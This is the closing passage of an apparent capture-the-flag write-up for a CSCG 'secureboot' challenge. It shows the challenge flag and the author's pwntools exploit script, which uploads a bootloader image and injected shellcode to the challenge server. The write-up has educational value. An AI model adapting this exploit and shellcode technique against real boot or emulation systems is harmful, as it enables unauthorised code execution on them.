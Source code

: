 ## Getting the flag

Now the only thing left to do, is to 

1) Send the unpacker-shellcode

2) Jump to it using our system-trick

3) from there we jump to the unpacked, original shellcode

4) and **read the flag!!** 



```
CSCG{cyber_cyber_hax_hax!11!!1}
```



# My final exploit script (assumes the unpacker prepared)

```python
#!/usr/bin/env python3
from pwn import *


io = remote("<id>-secureboot.challenge.master.cscg.live", 31337, ssl=True)
#io = remote("localhost", 1024, ssl=False)

io.sendlineafter("[1] PRODUCTION", b"0")
io.sendlineafter("[1] NOGRAPHIC", b"1")


with open("basic.img", "rb") as f:
    boot_loader = f.read()

print("BL-len:", len(boot_loader))

io.sendlineafter(b'[*] End your input with "EOF"', 
        (boot_loader.hex()+"EOF").encode())

# Get unnecessary text out of the way ...
for i in range(11):
    print(io.recvline())


# This has some weird f***** problem
#shellcode = b"jXX4XHf5ZZf5NFP"
#shellcode = b"jXX4XHf5ZZXXf5NFXXP"

with open("shell.code", "rb") as f:
    shellcode = f.read()


if b"\x0d" in shellcode or b"\x08" in shellcode:
    print("SHELLCODE contains illegal character!")

LINE = 0x7e80
PROGRAM = 0x8000
END_CODE = 0x7e00

BEFORE_SHELLCODE_BUF_LEN = 0x81

shellcode_address = p16(0x7f01)#p16(LINE+BEFORE_SHELLCODE_BUF_LEN) # LINE with buffer for "system" call to not overwrite shellcode

```